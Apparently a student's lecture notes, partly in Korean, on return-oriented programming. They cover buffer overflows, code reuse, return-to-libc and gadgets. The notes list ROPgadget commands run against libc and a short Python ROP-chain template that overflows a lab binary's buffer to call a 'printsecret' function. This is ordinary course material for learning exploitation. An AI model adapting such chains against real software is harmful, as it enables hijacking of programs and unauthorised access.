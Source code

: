 ![[L13 Return-oriented Programming.pdf#page=3&selection=6,15,6,41]]
어떻게든지 하이재킹 한다

buffer overflow = overwrite -> CPU execute the code
Hijack the control flow
Global Variables/Local Variables
Don't hijack the control flow

Code Injectio attack
	Shell code supplied by hacker
	Machine code = instructions

Code reuse attack
Return to libc attack

address space 에 있어야됨

return to some place => NOT oversrite, re use

Turing complete 하게

Innocent flesh = Random bytes
Code sequence
	Gadgets
		Some bytes > Not limited by compiler

Generates random byte -> Interpreted as a valid instructions

ROP gadget
![[L13 Return-oriented Programming.pdf#page=13&selection=3,0,4,50]]
NOjop - NO JUMP ORIENTED
Binary to get gadgets in the binary
offset - BaseAddress

![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,11,60]]
40 bytes


1. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6
2. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop
3. python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6 --nojop | grep "pop rdi"
	1. 0x0000000000023b6a : pop rdi ; ret
4. ldd ./bufferoverflow_overflowret3_64
5. touch /tmp/e.sh
6. ![[L13 Return-oriented Programming.pdf#page=27&selection=5,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=2,0,12,7]]![[L13 Return-oriented Programming.pdf#page=27&selection=9,38,9,46]]

1. Address
	1. F1
		1. 0000000000401166
	2. F2
		1. 00000000004011ae
	3. F3
		1. 00000000004011f9
	4. F4
		1. 000000000040123b

```

```

```
#!/usr/bin/env python2  
# python template to generate ROP exploit

from struct import pack

p = ''  
p += "A" * 14  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000012345678) #  
p += pack('<Q', 0x00007ffff7dcf04f) # pop rsi ; ret  
p += pack('<Q', 0x00000000deadbeef) #  
p += pack('<Q', 0x000000000040127a) # Address of printsecret

print p
```